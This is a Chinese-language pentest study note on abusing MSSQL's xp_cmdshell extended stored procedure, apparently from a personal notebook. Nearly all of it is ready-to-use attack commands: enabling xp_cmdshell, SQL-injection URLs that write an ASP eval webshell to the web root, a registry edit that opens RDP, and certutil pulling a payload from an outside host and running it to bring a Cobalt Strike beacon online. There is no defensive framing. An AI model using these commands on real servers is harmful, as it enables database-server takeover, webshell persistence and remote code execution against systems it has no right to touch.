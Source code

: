 ![image-20240906193747809](C:/Users/24937/Desktop/学习/笔记/assets/image-20240906193747809.png)

------



#### 扩展存储过程

- 扩展存储过程以`xp`开头,主要使用外部程序语言编写的存储过程

- 如:`xp_cmdshell`直接利用其执行命令,`xp_subdirs`读取文件夹内容

- `sql server 2005` 后的版本默认关闭,需要开启后使用

- ```sql
  #开启xp_cmdshell
  EXEC sp_configure 'show advanced options',1;
  RECONFIGURE;
  EXEC sp_configure 'xp_cmdshell',1;
  RECONFIGURE;
  
  #执行系统命令
  exec master..xp_cmdshell 'whoami'
  #查询web根目录路径
  exec master..xp_cmdshell 'where /r c:/ *.asp'
  #利用xp_cmdshell写webshell-->`^`为转义符
  exec master..xp_cmdshell 'echo ^<%eval request("cmd")%^> > c:/inetpub/wwwroot/shell.asp' -->找web绝对路径可利用where命令和其它扩展存储过程组合利用
  
  #利用xp_cmdshell开启3389
  http://192.168.1.1/Less-1.asp?id=1'exec xp_cmdshell 'REG ADD HKLM/SYSTEM/CurrentControlSet/Control/Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f' --+
  
  #执行命令写入web根目录或者反弹shell
  http://192.168.1.1/Less-1.asp?id=1';exec xp_cmdshell 'systeminfo > c:/inetpub/wwwroot/systeminfo.txt' --+
  
  #执行命令写入webshell
  http://192.168.1.1/Less-1.asp?id=1';exec master..xp_cmdshell 'echo ^<%eval request("cmd")%^> > c:/inetpub/wwwroot/shell.asp'
  
  #----------------------------------------------->xp_cmdshell执行powershell命令上线CS<-----------------------------------------------
  
  http://192.168.1.1/Less-1.asp?id=1';exec master..xp_cmdshell 'certutil.exe -f -split -urlcache http://192.168.172.129:9090/payload64.txt c://inetpub//wwwroot//payload1.bat' --+
  
  http://192.168.1.1/Less-1.asp?id=1';exec master..xp_cmdshell 'c://inetpub//wwwroot//payload1.bat' --
  -----------------------------------------------------------------------------------------------------------------------------------
  
  #SharpSQL Tools.exe 利用 xp_cmdshell
  SharpSQLTools.exe 192.168.1.1 tomato tomato master enable_xp_cmdshell
  SharpSQLTools.exe 192.168.1.1 tomato tomato master xp_cmdshell whoami
  
  #删除xp_cmdshell存储过程
  exec sp_addextendedproc xp_cmdshell,@dllname='xplog70.dll' declare @o int;
  sp_addextendedproc 'xp_cmdshell','xpsql70.dll';  --> 若彻底删除C盘删
  
